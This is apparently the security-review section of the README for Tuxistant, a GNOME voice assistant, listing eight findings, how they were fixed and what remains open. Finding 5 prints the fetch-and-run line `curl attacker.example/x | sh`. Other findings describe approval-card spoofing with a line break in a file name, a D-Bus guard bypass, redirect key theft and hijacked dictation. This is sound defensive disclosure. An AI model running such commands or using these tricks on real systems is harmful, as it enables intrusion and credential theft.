1. **The file name that forges the approval card.** An attacker names a file `a.tmp`, then a line break, then `only-this-harmless-file.tmp`. When you ask to delete `*.tmp`, the card looks as if it lists one harmless file, while the real list is hidden. Tuxistant shows line breaks, tabs, escape codes and text-direction characters as visible codes, so a name can't draw its own line.
2. **The repository that runs code when you look at it.** A downloaded Git repository can name a "filter" program in its own config, and plain `git status` will run it. Each attack in the test suite is first shown working on ordinary Git in the same sandbox, so a pass proves the defence stopped it. Tuxistant runs Git with hooks and filters turned off.
3. **Getting past the guard by leaving something out.** Only GNOME Shell may answer an approval card, and the first guard checked the D-Bus interface name. A call can leave the interface out and still reach the method, which bypassed the check. The guard now matches on the method name alone.
4. **The redirect that steals your key.** A server answers with a redirect to another host, hoping the API key follows. Tuxistant refuses redirects and ignores proxies. In the test, the second host receives nothing.
5. **Choosing the words you dictate.** Another program on your desktop pointed Tuxistant at its own server, then started dictation. Its server received the audio and chose the text, so `curl attacker.example/x | sh` appeared in the terminal. Dictation can never press Enter, so the command didn't run. Now only the shell can start dictation, and the words go to the shell alone rather than across the session bus. This isn't fully closed: a program running as you can still change the server setting, so it could still choose the words of a dictation you start yourself. It can't start one or press Enter.
6. **Your password, pasted into the wrong app.** Some apps need a paste, so Tuxistant borrows the clipboard and puts it back after a moment. The review used an app that took 1.2 seconds to respond. By then the clipboard had been restored, and the app received `my-bank-password` instead of the dictated words. The wait is now 2 seconds, and that app gets the words, but the wait is still fixed: an app slower than that could still get the old clipboard.
7. **The test result that proved nothing.** A check that breaks each safety guard on purpose reported 18 of 18 caught. Every test had actually died at import, so nothing had been tested. The check now refuses to run unless the same tests pass with nothing broken first.
8. **The fix that crashed the desktop.** Fixing a clipboard bug introduced a worse one: code held on to memory it didn't own, and GNOME Shell crashed. On Wayland that ends your whole session. It was caught in an isolated test shell, and the rule is now in the project's [contract](docs/CONTRACT.md).

### How it makes the code stronger

- **Attacks stay.** A fixed finding becomes a test that runs for good. [tests/test_review_regressions.py](tests/test_review_regressions.py) has 47, and [tests/test_shellgate.py](tests/test_shellgate.py) keeps 260 more against the real sandbox, so a later change can't quietly reopen a hole.
- **Fixes aim at the whole kind of bug.** A list of secret folders became the opposite rule: everything in `~/.config` and `~/.local` is hidden from read-only commands unless it's allowed, so what a new app keeps there is hidden from its first day.
- **It finds the bugs users would meet.** The integration lens found that opening a PDF reported failure while the file sat on screen, that "open the second one" could never work with default settings, and that a broken voice turned a finished translation into an error.
- **Lessons become rules.** What went wrong is written into [docs/TESTING.md](docs/TESTING.md) and the project's rules, so the next round starts from it.

### What it doesn't do

- It doesn't replace an outside audit, and there hasn't been one. The reviewers are AI agents like the builders, so they may share blind spots.
- It only covers what was tried. The second round didn't exercise real administrator prompts, real phone transfers or a real call to Claude. [docs/ROADMAP.md](docs/ROADMAP.md) lists what still has to be checked on a real desktop.
- It doesn't make testing safe by itself. [docs/TESTING.md](docs/TESTING.md) records the times a test run reached the real desktop, and what changed afterwards.

## Development

```sh
python3 -m unittest discover -s tests -t .
```

It takes about eight minutes. Beyond what Tuxistant itself needs, the tests use `gnome-shell`, `mutter`, PipeWire, `bubblewrap`, `git`, Pillow (`python3-pil`), `pip` and `shellcheck`. A test whose tool is missing is skipped, so read the skip count: without `bubblewrap`, or in a container that blocks user namespaces, over a hundred sandbox tests don't run.

[docs/TESTING.md](docs/TESTING.md) covers the test layers and the live evaluations. No test needs a microphone, a speaker or your GNOME session. The installer tests run in a temporary prefix with `ssh`, `sudo` and `systemctl` replaced by stand-ins. The audio tests run through a private PipeWire graph that has only a null sink.

With a LocalAI server to talk to, this also runs everything end to end in an isolated headless GNOME Shell: the real daemon, extension, Settings app and Fn helper, with scripted audio. Set `TUX_E2E_OUT` to a folder to keep its screenshots.

```sh
TUXISTANT_LIVE=1 TUXISTANT_SERVER=yourserver:8080 TUXISTANT_API_KEY=... python3 tests/shell_harness/test_e2e_live.py
```

## Licence

Copyright 2026 Eugene Trotsan. Tuxistant is free software under the GNU General Public License, version 3. See [LICENSE](LICENSE).

## Credits

The bundled themes are original work, except that Listening Tux redraws, as a from-scratch shader, the Tux that Larry Ewing (lewing@isc.tamu.edu) made with The GIMP in 1996. That design may be used and modified provided Larry Ewing and The GIMP are acknowledged.
